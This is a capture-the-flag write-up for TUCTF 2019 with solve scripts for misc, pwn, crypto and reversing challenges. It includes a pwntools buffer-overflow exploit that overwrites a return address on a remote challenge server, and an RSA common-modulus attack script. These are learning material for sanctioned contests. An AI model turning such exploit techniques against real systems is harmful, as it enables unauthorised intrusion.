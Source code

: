 # MISC
# Brain Games
I had a hard time automating this since it blacked out my entire terminal, so I just opened python and solved the three tasks quickly.

# Red Yarn
```bash
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/RedYarn$ ls
DEBUG.COM  solve
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/RedYarn$ strings DEBUG.COM | grep "TU"
TUCTF{D0NT_F0RG3T_TH3_B4S1CS!}
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/RedYarn$ 

```
# Super Secret
```basha0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret$ binwalk -e document.odt 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
0             0x0             Zip archive data, compressed size: 39, uncompressed size: 39, name: mimetype77            0x4D            Zip archive data, at least v2.0 to extract, name: manifest.rdf
396           0x18C           Zip archive data, at least v2.0 to extract, name: Configurations2/progressbar/
454           0x1C6           Zip archive data, at least v2.0 to extract, name: Configurations2/toolbar/508           0x1FC           Zip archive data, at least v2.0 to extract, name: Configurations2/statusbar/
564           0x234           Zip archive data, at least v2.0 to extract, name: Configurations2/toolpanel/
620           0x26C           Zip archive data, at least v2.0 to extract, name: Configurations2/popupmenu/676           0x2A4           Zip archive data, at least v2.0 to extract, name: Configurations2/images/Bitmaps/
737           0x2E1           Zip archive data, at least v2.0 to extract, name: Configurations2/accelerator/795           0x31B           Zip archive data, at least v2.0 to extract, name: Configurations2/floater/
849           0x351           Zip archive data, at least v2.0 to extract, name: Configurations2/menubar/
903           0x387           Zip archive data, at least v2.0 to extract, name: content.xml2097          0x831           Zip archive data, at least v2.0 to extract, name: styles.xml
4206          0x106E          Zip archive data, at least v2.0 to extract, name: meta.xml
4714          0x126A          Zip archive data, at least v2.0 to extract, name: Basic/Standard/flag.xml
5051          0x13BB          Zip archive data, at least v2.0 to extract, name: Basic/Standard/script-lb.xml
5337          0x14D9          Zip archive data, at least v2.0 to extract, name: Basic/script-lc.xml
5613          0x15ED          Zip archive data, at least v2.0 to extract, name: settings.xml
7356          0x1CBC          Zip archive data, at least v2.0 to extract, compressed size: 3983, uncompressed size: 3983, name: Thumbnails/thumbnail.png
11393         0x2C81          Zip archive data, at least v2.0 to extract, name: META-INF/manifest.xml
13126         0x3346          End of Zip archive, footer length: 22

a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret$ cd _document.odt.extracted/
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted$ ls
0.zip  Configurations2  manifest.rdf  meta.xml  settings.xml  Thumbnails
Basic  content.xml      META-INF      mimetype  styles.xml
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted$ cd Basic/Standard/
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted/Basic/Standard$ ls
flag.xml  script-lb.xml
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted/Basic/Standard$ strings flag.xml | grep "TU"
TUCTF{ST0P_TRUST1NG_M4CR0S_FR0M_4N_UNKN0WN_S0URC3}
a0su@a0su:~/Documents/CTF/2019/TUCTF/Misc/SuperSecret/_document.odt.extracted/Basic/Standard$ 
```
	
# PWN
# Run Me
Just run the binary

# Thefirst
Buffer Overflow and rewrite the return address
```python
from pwn import * 
pad = "A" * 24
add = p32(0x080491f6)r = remote('chal.tuctf.com',30508)
r.sendline(pad+add)
r.interactive()
```


# CRYPTO
# Sonic
In this challenge we NC and a presented with an ASCII sonic and are to decrypt the given ciphertext in under a few seconds. After I realized they were applying a rotation of the alphabet by some number n, I decided to brute force all permutations and then used PyEnchant to check if a permutation was a word in the English language if it was I sent it over. 
```python
#!/usr/bin/python3
from pwn import *import enchant

d = enchant.Dict("en_US")
#r = remote('chal.tuctf.com', 30100)
#s = r.recv()
#print(s)s = 'pmttw'

def rot_alpha(n):    from string import ascii_lowercase as lc, ascii_uppercase as uc    lookup = str.maketrans(lc + uc, lc[n:] + lc[:n] + uc[n:] + uc[:n])
    return lambda s: s.translate(lookup)
for i in range(1,25):    if(d.check(rot_alpha(i)(s))):
        #r.sendline(rot_alpha(i)(s))
        print(rot_alpha(i)(s))
```

# Warren
This challenge provides five different ciphertexts using the following methods: baconian, caesar, vigenere, atbash, and affine. Since these did not change each you connected I solved statically and submitted. The only difficult part was vigenere since we did not know the key, but I used dcode and provided a known portion of the plaintext to be vigenere since it followed as a pattern in the previous messages.

# Something in Common
The given information shows two ciphertext, two public keys, and a single common modulus. With this information we can apply bezout's identity using the extended euclidean algorithm. Which states that there are two coefficients, which we can call a and b, such that a * e1 + b * e2 = gcd(e1,e2). We also know that the gcd of our public keys, 13 and 15, is 1 since they are coprime. 
```python
from fractions import gcd
n = 5196832088920565976847626600109930685983685377698793940303688567224093844213838345196177721067370218315332090523532228920532139397652718602647376176214689

e1 = 15
e2 = 13

c1 = 2042084937526293083328581576825435106672034183860987592520636048680382212041801675344422421233222921527377650749831658168085014081281116990629250092000069

c2 = 199621218068987060560259773620211396108271911964032609729865342591708524675430090445150449567825472793342358513366241310112450278540477486174011171344408
def egcd(a, b):
    if a == 0:        return (b, 0, 1)
    else:
        g, y, x = egcd(b % a, a)
        return (g, x - (b // a) * y, y)

def modinv(a, m):
    g, x, y = egcd(a, m)
    if g != 1:
        raise ValueError('Modular inverse does not exist.')
    else:
        return x % m

def attack(c1, c2, e1, e2, N):
    if gcd(e1, e2) != 1:
        raise ValueError("Exponents e1 and e2 must be coprime")
    s1 = modinv(e1,e2)
    s2 = (gcd(e1,e2) - e1 * s1) / e2
    temp = modinv(c2, N)
    m1 = pow(c1,s1,N)
    m2 = pow(temp,-s2,N)
    return (m1 * m2) % N


def main():
    try:
        message = attack(c1, c2, e1, e2, n)
        print '\nPlaintext message:\n%s' % format(message, 'x').decode('hex')
    except Exception as e:
        print e.message

main()
```
	
# REVERSING
# faker
The challenge provides a menu where we can decrypt three fake flags. Opening in Ghidra we find the decryption function and decompile it. Replicating this in python we can take the actual encrypted flag from memory and decrypt it using the following:
```
def printFlag(s):
   o = ''
   for i in range(len(s)):
       o += chr(((((ord(s[i]) ^ 0xf) - 0x1d) * 8) % 0x5f) + ord(' '))
   return o
   
if __name__ == '__main__':
    s = "\\PJ\\fC|)L0LTw@Yt@;Twmq0Lw|qw@w2$a@0;w|)@awmLL|Tw|)LwZL2lhhL0k"
    print(printFlag(s))
```
# core
Given a core dump I look for where the binary is ran and then for its subsequent output. The given .c shows they XOR the flag with 1 and output it. To easily find its output we can use the known flag format ```TUCTF{}```, we can find T ^ 1 to be U, which means ```UTBUGzb1s2^etlq>^O2w2s^i25se^1g^x1t|``` is our encrypted flag.

```python
s = 'UTBUGzb1s2^etlq>^O2w2s^i25se^1g^x1t|'
o=''
for i in range(len(s)):
    o += chr(ord(s[i]) ^ 1)
print(o)
```

	

